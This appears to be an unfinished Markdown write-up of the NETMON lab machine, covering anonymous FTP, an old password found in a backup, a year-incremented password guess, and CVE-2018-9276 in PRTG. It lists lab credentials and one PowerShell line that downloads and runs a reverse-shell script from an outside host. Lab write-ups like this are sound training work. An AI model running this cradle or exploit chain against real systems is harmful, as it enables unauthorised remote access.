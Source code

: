 Name & IP Address of Machine:
> NETMON : `10.10.10.152`
<!-- TOC -->

- [Synopsis](#synopsis)
- [Enumeration](#enumeration)
- [FootHold](#foothold)
- [Lateral Movement](#lateral-movement)
- [Privilege Escalation](#privilege-escalation)

<!-- /TOC -->

pentest:P3nT3st

## Synopsis
Anonymous ftp allowed and login anonymously, you will get user.txt. There is also a backup file for web server database. From which you get a old password of previous year. You guess the password by incrementing year and login to the webserver. The web server is running as nt/ authority system, search google for any cve and you will come across `CVE-2018-9276`. Use that to get a reverse shell using msfconsole or whatever way you like.
`prtgadmin:PrTg@dmin2018`
`prtgadmin:PrTg@dmin2019` --- works
 

## Enumeration
Opened Ports: 
- [ ] 21 (FTP)
- [ ] 80 (WEB-SERVER)

powershell iex(new-object net.webclient).downloadString('http://10.10.14.28:8000/Invoke-PowerShellTcp.ps1)



## FootHold

## Lateral Movement

## Privilege Escalation




<!-- ## Thank You 
🕉️  -->


<!-- ## Tools Used.
- [ ] . -->